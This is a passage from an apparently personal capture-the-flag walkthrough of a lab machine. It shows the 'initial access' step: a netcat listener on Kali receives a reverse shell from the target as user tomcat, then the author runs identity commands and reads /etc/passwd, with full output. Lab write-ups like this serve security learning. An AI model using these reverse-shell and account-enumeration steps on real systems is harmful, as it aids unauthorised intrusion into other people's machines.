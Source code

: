 ## Initial access
After opening the directory in a new tab I went back to my netcat listener.
```bash
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 9999       
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.0.2.6.
Ncat: Connection from 10.0.2.6:49570.

```
It looks like a connection is established. Time to see who has connected to my machine. I use therefore a oneliner such as **whoami;id;hostname;pwd**
```bash
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 9999       
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.0.2.6.
Ncat: Connection from 10.0.2.6:49570.
whoami;id;hostname;pwd
tomcat
uid=999(tomcat) gid=999(tomcat) groups=999(tomcat)
miletus
/
```
The user tomcat is connecting from miletus to me and the working directory is in the root of the machine. I would like to know which users are on the target, so I use the command **cat /etc/passwd** to see which users are available on the target.
```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
thales:x:1000:1000:thales:/home/thales:/bin/bash
```